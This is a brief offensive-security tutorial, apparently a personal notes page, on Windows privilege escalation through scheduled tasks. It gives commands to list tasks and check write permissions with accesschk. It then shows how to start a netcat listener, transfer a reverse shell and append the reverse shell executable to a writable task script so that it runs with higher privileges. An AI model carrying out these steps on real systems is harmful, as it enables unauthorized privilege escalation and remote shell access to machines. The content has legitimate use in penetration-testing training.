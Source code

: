 - - -
**Cronjobs**.
Unfortunately, there is no easy method for enumerating custom tasks that belongs to
other users as a low priviledged user account.


### Start :
List all scheduled tasks that our user can see.

```powershell
schtasks /query /fo LIST /v
```

### In Powershell :

```powershell
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

But don't rely completely on these above command, Noticing your target system manualy is Brutal.

Now If you find a cron.

**<u>Do we have write permissions in the existing binary path</u>**. 
Note at your GROUP in the results.

```powershell
 .\accesschk.exe /accepteula -qvu <our_user> "C:\path To\Cronjob"
```

```sh
nc -nvlp 9090
```

Have a backup of the original one.

```powershell
copy cronjob.ps1 C:\Temp\
```

Transfer your reverse shell.

Then run.

```powershell
echo C:\Path\To\reverse.exe >> cronjob.ps1
```

All set just Wait now !!!
<br>

- - -
